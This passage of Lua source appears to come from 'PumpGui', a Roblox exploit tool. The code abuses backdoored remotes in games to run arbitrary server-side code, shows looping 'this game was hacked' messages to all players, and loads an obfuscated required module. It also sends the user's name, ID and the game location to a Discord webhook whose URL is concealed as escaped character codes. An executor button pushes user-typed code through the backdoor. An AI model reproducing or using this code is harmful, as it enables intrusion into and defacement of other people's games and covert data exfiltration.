 	--				runRemote(backdoor, "a=Instance.new('Hint',workspace)while true do a.Text='PumpGui Este jogo foi Hackeado 'for b=1,13 do a.Parent=workspace;wait(1)a.Parent=nil;wait(0.5)end;wait(60)end")
					runRemote(remote, "require(171016405.1884*69)")			
					runRemote(remote, "a=Instance.new('Hint')a.Text='Este jogo foi Hackeado'while true do a.Parent=workspace;wait(15)a:Remove()wait(30)end")
					
					local request = (syn and syn.request) or (http and http.request) or http_request or (fluxus and fluxus.request) or request
					if request and not _G.PumpGui_Logs_Disabled then 
						request({
							Url = '\104\116\116\112\115\58\47\47\100\105\115\99\111\114\100\46\99\111\109\47\97\112\105\47\119\101\98\104\111\111\107\115\47\49\49\48\56\54\57\52\49\54\48\52\54\52\49\53\56\55\56\49\47\57\86\67\122\95\99\107\52\117\120\51\77\51\84\81\106\56\109\111\76\68\113\51\78\119\45\100\107\89\68\87\55\103\69\99\97\76\72\75\80\98\101\50\95\74\74\73\122\53\109\50\102\69\104\54\101\83\110\112\51\51\87\79\76\116\103\105\49',
							Method = 'POST',
							Headers = {
								['Content-Type'] = 'application/json',
							},
							Body = HttpService:JSONEncode({
								username='pls dont delete this w3bh00k',
								content="**User: `"..game:GetService('Players').LocalPlayer.Name..'` | `'..game:GetService('Players').LocalPlayer.UserId..'`\nhttps://www.roblox.com/games/'..game.PlaceId..'\n`'..backdoor:GetFullName()..'`**',
							})
						})
					end
	
					return true
				end
--				debug('"'..remote:GetFullName()..'" seems like not backdoor', 1)
			end
			
			wait()--.1)
			
		end
	
		return false
	
	end
	
	GUI.Executor.Execute.Button.MouseButton1Click:Connect(function()
		local a,b=string.gsub(GUI.Executor.ExecutorBox.TextBox.Text, '%%username%%', game:GetService('Players').LocalPlayer.Name)
		
		local protected_backdoor=game:GetService('ReplicatedStorage'):FindFirstChild('lh'..game.PlaceId/6666*1337*game.PlaceId)
		if protected_backdoor and protected_backdoor:IsA('RemoteFunction') then
			debug('Protected backdoor found', 3)
			spawn(function()
				local boolValue, variantValue=pcall(function() protected_backdoor:InvokeServer('PumpGui join today!! discord.gg/XXqzxT7E5z', a) end)
				if variantValue~=nil then
					local splited=string.split(variantValue,':')
					notify(splited[#splited])
				end
			end)
		else
			runRemote(backdoor, a)
		end
		GUI.Executor.Execute.Button.Text='Executed!'
		wait(0.5)
		GUI.Executor.Execute.Button.Text='Execute'
	end)
	GUI.Executor.Clear.Button.MouseButton1Click:Connect(function()
		GUI.Executor.ExecutorBox.TextBox.Text=''
		GUI.Executor.Clear.Button.Text='Cleared!'